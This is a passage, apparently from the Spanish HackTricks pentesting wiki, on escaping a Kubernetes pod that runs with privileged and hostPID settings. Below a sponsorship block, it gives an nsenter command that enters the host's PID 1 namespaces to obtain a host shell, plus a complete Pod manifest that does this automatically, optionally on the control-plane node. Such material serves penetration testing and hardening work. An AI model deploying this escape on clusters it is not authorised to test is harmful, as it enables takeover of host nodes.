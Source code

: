 ## Privilegios de escape de Pod

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si deseas ver a tu **empresa anunciada en HackTricks** o si deseas acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos.
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Privilegios y hostPID

Con estos privilegios tendrás **acceso a los procesos del host** y **suficientes privilegios para ingresar dentro del namespace de uno de los procesos del host**.\
Ten en cuenta que potencialmente no necesitas privilegios, sino solo algunas capacidades y otros posibles bypasses de defensas (como apparmor y/o seccomp).

Simplemente ejecutar algo como lo siguiente te permitirá escapar del pod:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

Ejemplo de configuración:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: priv-and-hostpid-exec-pod
  labels:
    app: pentest
spec:
  hostPID: true
  containers:
  - name: priv-and-hostpid-pod
    image: ubuntu
    tty: true
    securityContext:
      privileged: true
    command: [ "nsenter", "--target", "1", "--mount", "--uts", "--ipc", "--net", "--pid", "--", "bash" ]
  #nodeName: k8s-control-plane-node # Forzar que el pod se ejecute en el nodo de control-plane descomentando esta línea y cambiando el nombre del nodo de control-plane
```

## Solo privilegiado